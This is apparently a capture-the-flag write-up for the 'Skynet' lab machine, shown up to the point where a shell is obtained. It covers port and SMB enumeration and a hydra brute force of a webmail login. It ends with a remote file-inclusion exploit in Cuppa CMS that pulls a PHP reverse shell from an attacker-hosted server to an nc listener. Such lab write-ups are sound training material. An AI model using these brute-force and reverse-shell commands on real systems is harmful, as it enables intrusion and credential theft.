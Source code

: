#Linux #SMB  # 

skynet: A vulnerable Terminator themed Linux machine


NMAP Scan

```sh
  nmap -sV -sC -p- 10.10.14.219
  ```
* To see the versions of the services running (-sV)
* To perform a script scan using the default set of scripts (-sC)
* To scan all ports from 1 through 65535 (-p-)

OPEN PORTS

* 22/tcp  open  ssh
* 80/tcp  open  http
* 110/tcp open  pop3
* 139/tcp open  netbios-ssn
* 143/tcp open  imap
* 445/tcp open  microsoft-ds (SMB)

We start with Port 80/tcp. The HTML code does not shown anything interesting, the buttons do not work.  

![image](https://user-images.githubusercontent.com/99097743/170730299-698d3ae3-81c2-48dc-89db-eca62bddbfa1.png)

![image](https://user-images.githubusercontent.com/99097743/170730467-87b64da3-0597-40fd-8b33-55fa10cc4027.png)

Let's move on the 'hidden" directories, Gobuster can help us locate them:

```sh
gobuster dir -u=http://10.10.14.219 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![image](https://user-images.githubusercontent.com/99097743/170731438-021c0087-aea6-46a2-8c6a-3cb0c93ba632.png)

This analysis takes a while. The following directories were listed in the first few minutes:

* /admin (Status 301)
* /css (Status 301)
* /js (Status 301)
* /config (Status 301)
* /ai (Satus 301)
* /squirrelmail (Status 301) -- Check this out!
* /server-status

![image](https://user-images.githubusercontent.com/99097743/170733365-d1597c75-3cac-4cb0-a7b8-0e3402861fd6.png)

**Searchsploit** suggests that there is no vulnerability documented for **SquirrelMail version 1.4.23**

![image](https://user-images.githubusercontent.com/99097743/170743722-89617c7d-6878-4ec2-b530-1676178865ba.png)

OK, Let's switch to Port 445/tcp - SMB server. We can try the **enum4linux** for enumerating information.


```sh
  enum4linux -a 10.10.14.219
  ```
* To do all simple enumerations (-a)

There are interesting results such as the known usernames:

![image](https://user-images.githubusercontent.com/99097743/170734669-57ec1e84-403f-4464-a5a9-6c62c66ebe0b.png)


Here are the sharenames:

![image](https://user-images.githubusercontent.com/99097743/170734874-50cb0cc9-7a02-484e-a69e-1e9aa92a5772.png)


We can use the **smbclient** to enter the anonymous share.


```sh
  smbclient '\\10.10.48.162\anonymous'
  
  # If you need to enter share with a username
  smbclient -U milesdyson '\\10.10.246.55\milesdyson'
  
  ```
  
 We captured a number of log files -- one of which includes a password list for the email account: **milesdyson**. 
 
 Let's use **hydra** for brute-forcing the email account 
 
 ```sh
 hydra -l milesdyson -P log1.txt 10.10.48.162 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=incorrect" -V -F -u
```
![image](https://user-images.githubusercontent.com/99097743/170764972-17fd4f81-db5a-40c1-862f-6014aa37ce7c.png)

We now have access to the email account!

![image](https://user-images.githubusercontent.com/99097743/170765416-03b102ff-c975-4637-a994-d061991061c4.png)

There is a Samba Password Reset email providing a new password. We can use the credentials to login the SMB share and see that there is a document, entitled important.txt. Here, it reveals the 'hidden directory'. Gobuster suggests that there is another hidden directry as /administrator, please see the figure below. 

![image](https://user-images.githubusercontent.com/99097743/170796322-835a1ab6-695b-442d-b8d6-5b48d7cfc906.png)

Now, let's go to **searchsploit** and search if there is any vulnerability documented for Cuppa CMS:

![image](https://user-images.githubusercontent.com/99097743/170797721-4e0caa91-3458-4107-b093-7957aedb4788.png)


```sh
  searchsploit -m php/webapps/25971.txt
  #VULNERABILITY: PHP CODE INJECTION
  An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.
  
  # We basically include the following link:
  /alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
  
  so the full URL becomes:
  http://10.10.246.55/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

  ```

Now, we can work on the reverse shell:

STEP 1: Generate the Reverse Shell and save it on the local host (Here, it is called RS.php)

![image](https://user-images.githubusercontent.com/99097743/170798516-8239f698-5ea1-4fb9-9d05-7ad32868babe.png)


STEP 2: Open up an HTTP server to transfer the payload to the target machine

```sh
  sudo python3 -m http.server 80
  ```
![image](https://user-images.githubusercontent.com/99097743/170799511-a9cb1b0c-3cb8-49e2-8aa6-af2d5cc0eff9.png)

STEP 3: Turn on the listener
```sh
sudo nc -lvnp 87
 ```
 
 ![image](https://user-images.githubusercontent.com/99097743/170799539-6d6f535a-4de8-41f8-8860-5bfe58f86896.png)


STEP 3: Modify the PHP Injection URL:

```sh
http://10.10.246.55/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://
  ```
  
STEP 4: Upload the PHP file from the localhost using the HTTP server and invoke the listener

```sh
curl  http://10.10.246.55/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.18.123.93:80/RS.php
  ```

Niceeee!! it works:

![image](https://user-images.githubusercontent.com/99097743/170799708-ca8f61e3-ba39-462a-b38d-c67ea5661769.png)

Let's stabilize the shell!

